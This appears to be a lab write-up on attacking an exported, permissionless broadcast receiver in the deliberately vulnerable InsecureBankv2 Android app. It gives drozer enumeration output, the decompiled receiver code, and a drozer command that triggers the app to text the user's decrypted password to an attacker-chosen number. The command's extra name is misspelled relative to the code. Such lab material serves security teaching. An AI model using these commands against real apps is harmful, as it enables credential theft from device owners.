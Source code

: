 # Exploit Broadcast Receivers

* Information Gathering

```bash
# Using drozer get the broadcast receivers informations
dz> run app.broadcast.info -a com.android.insecurebankv2 
Attempting to run shell module
Package: com.android.insecurebankv2
  com.android.insecurebankv2.MyBroadCastReceiver
    Permission: null
```

* Static Analysis `MyBroadCast` Activity

```java
package com.android.insecurebankv2;

import android.content.BroadcastReceiver;
import android.content.Context;
import android.content.Intent;
import android.content.SharedPreferences;
import android.telephony.SmsManager;
import android.util.Base64;

/* JADX WARN: Classes with same name are omitted:
  /home/sallam/Documents/Android AppSec/vulnApps/InsecureBankv2/build/apk/classes.dex
 */
/* loaded from: /tmp/jadx-4403557323843835393.dex */
public class MyBroadCastReceiver extends BroadcastReceiver {
    public static final String MYPREFS = "mySharedPreferences";
    String usernameBase64ByteString;

    @Override // android.content.BroadcastReceiver
    public void onReceive(Context context, Intent intent) {
        String phn = intent.getStringExtra("phonenumber");
        String newpass = intent.getStringExtra("newpass");
        if (phn != null) {
            try {
                SharedPreferences settings = context.getSharedPreferences("mySharedPreferences", 1);
                String username = settings.getString("EncryptedUsername", null);
                byte[] usernameBase64Byte = Base64.decode(username, 0);
                this.usernameBase64ByteString = new String(usernameBase64Byte, "UTF-8");
                String password = settings.getString("superSecurePassword", null);
                CryptoClass crypt = new CryptoClass();
                String decryptedPassword = crypt.aesDeccryptedString(password);
                String textPhoneno = phn.toString();
                String textMessage = "Updated Password from: " + decryptedPassword + " to: " + newpass;
                SmsManager smsManager = SmsManager.getDefault();
                System.out.println("For the changepassword - phonenumber: " + textPhoneno + " password is: " + textMessage);
                smsManager.sendTextMessage(textPhoneno, null, textMessage, null, null);
                return;
            } catch (Exception e) {
                e.printStackTrace();
                return;
            }
        }
        System.out.println("Phone number is null");
    }
}
```

This code defines a `BroadcastReceiver` that listens for specific intents containing a phone number and a new password. When triggered, it retrieves encrypted username and password from shared preferences, decrypts the password, and sends an SMS to the given phone number with a message about the password update. If the phone number is not provided, it logs that the phone number is null.

* Exploit send message tophone number 8888888 with new password

```bash
dz> run app.broadcast.send --action thBroadcast --extra string phonenummber 8888888 --extra string newpass Lol@88
```

<div align="center" data-full-width="true">

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

</div>

